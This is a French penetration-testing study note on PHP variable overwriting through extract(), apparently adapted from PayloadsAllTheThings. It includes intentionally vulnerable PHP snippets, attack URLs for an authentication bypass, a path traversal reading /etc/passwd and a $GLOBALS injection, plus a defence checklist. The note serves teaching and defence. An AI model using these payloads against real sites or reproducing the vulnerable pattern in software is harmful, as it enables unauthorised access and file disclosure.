

# External Variable Modification

> [!info] **En 1 phrase**
> External Variable Modification = l'app importe des **données contrôlées par l'attaquant** (GET/POST/headers) dans la **portée globale** de variables (ex : `extract($_GET)` en PHP) → l'attaquant écrase des variables internes critiques.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/External%20Variable%20Modification/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> `extract()` (PHP) importe par défaut avec `EXTR_OVERWRITE` : les clés de l'array d'entrée **remplacent** les variables existantes du même nom. Si des variables contrôlant la logique (`$authenticated`, `$page`, `$GLOBALS`) sont dans le scope → l'attaquant les fixe.

---

## Overwriting de variables critiques

```php
<?php
    $authenticated = false;
    extract($_GET);
    if ($authenticated) {
        echo "Access granted!";
    } else {
        echo "Access denied!";
    }
?>
```

```text
http://example.com/vuln.php?authenticated=true
http://example.com/vuln.php?authenticated=1
```

---

## Poisoning de File Inclusion

> `extract()` combiné à un `include` → l'attaquant contrôle le **chemin de fichier** → LFI.

```php
<?php
    $page = "config.php";
    extract($_GET);
    include "$page";
?>
```

```text
http://example.com/vuln.php?page=../../etc/passwd
```

---

## Injection de variables globales ($GLOBALS)

> `extract()` sur une valeur non fiable permet d'écraser des **variables globales**, y compris des entrées de `$GLOBALS` qui changent les réglages d'exécution (ex : indicateurs de sécurité).

```text
http://example.com/vuln.php?GLOBALS[admin]=1
```

> [!warning] **Depuis PHP 8.1.0**
> L'écriture de **tout l'array `$GLOBALS`** n'est plus supportée (il devient en lecture seule globalement). Le vecteur historique via `GLOBALS[x]=...` est **neutralisé** sur PHP 8.1+ — toujours tester la version cible.

---

## Vecteurs connexes

| Vecteur | Description |
|---|---|
| `extract($_POST)` | Même logique sur les données POST |
| `import_request_variables()` | Importe GET/POST/cookies en global (déprécié) |
| Variables d'environnement serveur | Headers HTTP exposés dans `$_SERVER` (`HTTP_*`) si mal filtrés, variables `register_globals` (déprécié) |
| Frameworks | Certains "variable globals" / assignment dynamique (cf. [[Mass Assignment| Mass Assignment]]) |
| Gadgets | L'écrasement d'une variable peut déclencher **LFI → RCE** ou **bypass de sécurité** en chaîne |

---

## Détection & Défense

| Mesure | Détail |
|---|---|
| **`EXTR_SKIP`** | `extract($_GET, EXTR_SKIP);` → n'écrase pas les variables déjà définies |
| **Jamais d'extract sur input direct** | Interdire `extract($_GET)` / `extract($_POST)` / `extract($_REQUEST)` |
| **Allowlist de clés** | N'importer que des clés connues et validées, avec un préfixe dédié |
| **register_globals = off** | Vérifier `php.ini` (déprécié, doit rester désactivé) |
| **Variables sensibles scellées** | `$GLOBALS`, flags de config → immuables (constantes, `readonly`) |
| **Code review** | Chercher les appels `extract`/`import_request_variables` dans le code (grep `extract(`) |

---

## Tips & Pièges

> [!tip] **Signature à repérer**
> En test d'intrusion : chercher dans le code source (cf. [[Insecure Source Code Management| Insecure Source Code Management]]) ou le diff un `extract()` sur de l'input → ensuite tester `?variable_critique=valeur`.

> [!warning] **Pièges**
> - Testez toujours **`authenticated=1` ET `authenticated=true`** — selon le typage PHP, un seul passe le `if`.
> - L'écrasement est silencieux : le contrôle de version PHP 8.1+ sur `$GLOBALS` change le vecteur.
> - CWE-473 (External Variable Modification) et CWE-621 (Variable Extraction Error) couvrent cette famille.
> - Le **vrai impact** est souvent indirect : le flag écrasé sert de **gadget** pour une autre vuln (LFI, RCE, auth bypass).

---

## Liens

- [[Mass Assignment| Mass Assignment]]
- [[LFI et RFI| LFI / RFI]]
- [[Injection de commandes| Injection de commandes]]
- → [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — External Variable Modification](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/External%20Variable%20Modification/README.md)
